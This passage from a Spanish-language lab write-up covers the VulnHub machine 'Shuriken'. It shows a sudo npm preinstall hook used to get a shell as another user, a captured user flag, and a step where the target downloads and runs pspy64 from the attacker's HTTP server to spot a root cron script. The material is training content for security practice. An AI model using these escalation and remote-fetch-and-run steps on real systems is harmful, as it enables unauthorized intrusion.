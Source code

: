 ```bash
www-data@shuriken:/home$ TF=$(mktemp -d)
www-data@shuriken:/home$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
www-data@shuriken:/home$ sudo -u server-management /usr/bin/npm -C $TF --unsafe-perm i

=========
A la primera puede dar error, dar todos los permisos al directorio que se genera
=========

www-data@shuriken:/home$ chmod 777 -R /tmp/tmp.RmmDdqTrya/
www-data@shuriken:/home$ sudo -u server-management /usr/bin/npm -C $TF --unsafe-perm i
```

### Flag del usuario server-management

```bash
$ script /dev/null -c /bin/bash
Script started, file is /dev/null
server-management@shuriken:/home$ ls
server-management
server-management@shuriken:/home$ cd server-management/
server-management@shuriken:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Shuriken  Templates  Videos  user.txt
server-management@shuriken:~$ cat user.txt 
67528***************************
```

### Monitoreo de tareas programadas con pspy

[pspy repo](https://github.com/DominicBreuker/pspy) 

```bash
> simplehttpserver 

   _____ _                 __     __  __________________                                
  / ___/(_)___ ___  ____  / /__  / / / /_  __/_  __/ __ \________  ______   _____  _____
  \__ \/ / __ -__ \/ __ \/ / _ \/ /_/ / / /   / / / /_/ / ___/ _ \/ ___/ | / / _ \/ ___/
 ___/ / / / / / / / /_/ / /  __/ __  / / /   / / / ____(__  )  __/ /   | |/ /  __/ /    
/____/_/_/ /_/ /_/ .___/_/\___/_/ /_/ /_/   /_/ /_/   /____/\___/_/    |___/\___/_/     
                /_/                                                       - v0.0.6

                projectdiscovery.io

Serving /home/fafi/Documents/vulnhub/shuriken1/content on http://0.0.0.0:8000/
[2025-02-03 13:17:14] 10.38.1.11:35494 "GET /pspy64 HTTP/1.1" 200 3104768
```


```bash
server-management@shuriken:~/Downloads$ curl http://10.38.1.10:8000/pspy64 -o pspy64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 3032k  100 3032k    0     0  44.1M      0 --:--:-- --:--:-- --:--:-- 44.1M
server-management@shuriken:~/Downloads$ ls
pspy64
server-management@shuriken:~/Downloads$ chmod +x pspy64 
server-management@shuriken:~/Downloads$ ls
pspy64
server-management@shuriken:~/Downloads$ 
server-management@shuriken:~/Downloads$ ./pspy64 

2025/02/03 20:10:01 CMD: UID=0     PID=18450  | /bin/bash /var/opt/backupsrv.sh 
```
